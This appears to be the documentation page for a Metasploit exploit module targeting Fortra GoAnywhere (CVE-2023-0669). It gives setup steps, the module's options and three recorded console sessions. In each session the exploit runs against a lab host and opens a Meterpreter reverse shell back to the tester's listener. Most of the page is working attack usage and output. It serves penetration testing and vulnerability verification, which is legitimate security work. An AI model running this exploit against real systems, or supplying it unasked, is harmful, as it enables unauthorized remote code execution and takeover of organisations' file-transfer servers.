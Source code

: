 ## Vulnerable Application

The vulnerable application is Fortra GoAnywhere. Currently, all versions are
vulnerable. The version I'm testing on is 7.1.1. You can get a free one-week
trial if you sign up on their site, but I don't think you actually need to
register - you can just create a free account and download the application.

## Verification Steps

1. Install the application
1. Start the application on the server with `./goanywhere.sh start`
1. Start msfconsole
1. Do: `use exploit/linux/http/fortra_goanywhere_rce_cve_2023_0669`
1. Set `LHOST` / `RHOST`
1. Do: `run`
1. You should get a shell.

## Options

### TARGET_URI

Set to the base path for the exploit - the default
(`/goanywhere/lic/accept?bundle=`) is usually fine.

### VERSION

The version number of the encryption, which is appended to the encrypted text.
Changing the target will change this, but normally you don't have to tweak this.

Some hosts (like in FIPS-compliant mode) don't allow version 1, but preumably
there are older hosts that don't support version 2.

### ENCRYPTION_KEY / ENCRYPTION_IV / ENCRYPTION_ALGORITHM

How to encrypt the object. Depending on the `VERSION`, there are different
keys. This is updated when you change TARGET and probably doesn't need to be
changed.

## Scenarios

### Version 7.1.1 on Fedora Linux

```
msf6 > use exploit/linux/http/fortra_goanywhere_rce_cve_2023_0669
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > set RHOSTS 10.0.0.219
RHOSTS => 10.0.0.219

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (24380 bytes) to 10.0.0.219
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.219:46860) at 2023-02-06 14:32:50 -0800

meterpreter > getuid
Server username: ron
```

### Using an earlier encryption version

```
msf6 > use exploit/linux/http/fortra_goanywhere_rce_cve_2023_0669
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > set RHOSTS 10.0.0.219
RHOSTS => 10.0.0.219

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > set TARGET 1
TARGET => 1

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > show options

[...]


Exploit target:

   Id  Name
   --  ----
   1   Version 1 Encryption



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (24380 bytes) to 10.0.0.219
[*] Meterpreter session 2 opened (10.0.0.179:4444 -> 10.0.0.219:46862) at 2023-02-06 14:33:41 -0800

meterpreter > 
```

# Version 7.1.1 over HTTP

```
msf6 > use exploit/linux/http/fortra_goanywhere_rce_cve_2023_0669
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > set RHOSTS 10.0.0.219
RHOSTS => 10.0.0.219

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > set RPORT 8000
RPORT => 8000

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false

msf6 exploit(linux/http/fortra_goanywhere_rce_cve_2023_0669) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (24380 bytes) to 10.0.0.219
[*] Meterpreter session 3 opened (10.0.0.179:4444 -> 10.0.0.219:46864) at 2023-02-06 14:35:06 -0800

meterpreter >
```
